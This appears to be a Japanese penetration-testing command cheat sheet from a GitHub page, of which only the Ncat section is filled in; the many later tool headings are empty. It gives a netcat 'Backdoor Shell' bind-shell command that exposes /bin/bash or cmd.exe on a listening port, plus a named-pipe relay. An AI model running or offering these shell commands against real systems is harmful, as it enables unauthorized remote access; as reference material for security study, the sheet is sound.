 # high-frequency-tips
頻繁に使うコマンドのCheatSheet

## Ncat
オプション：
```
-l：リッスン
-n：名前解決を行わない
-k：keep-open。コネクション確立後も別クライアントの接続をリッスンする
```
ヘルプの表示：
```
$nc -help
````
ポート1234でリッスン：
````
$ncat -nlv 1234
````
Backdoor Shell：
````
$nc -l -p [port] -e /bin/bash
OR
C:\>nc [port] -e cmd.exe
````
Netcat Relays(Listener-to-Listner)：
````
$cd /tmp
$mknod backpipe p
$nc -l -p [port] 0<backpipe | nc -l -p [port] | tee backpipe
````
## SSH
## FTP
## SCP
## Hydra
## John the Ripper
## HashCat
## Metasploit Framework
 ### Meterpreter
 ### msfvenom
 ### Pivot
## Network
 ### Routing
 ### ICMP
 ### ARP
## Google Dork
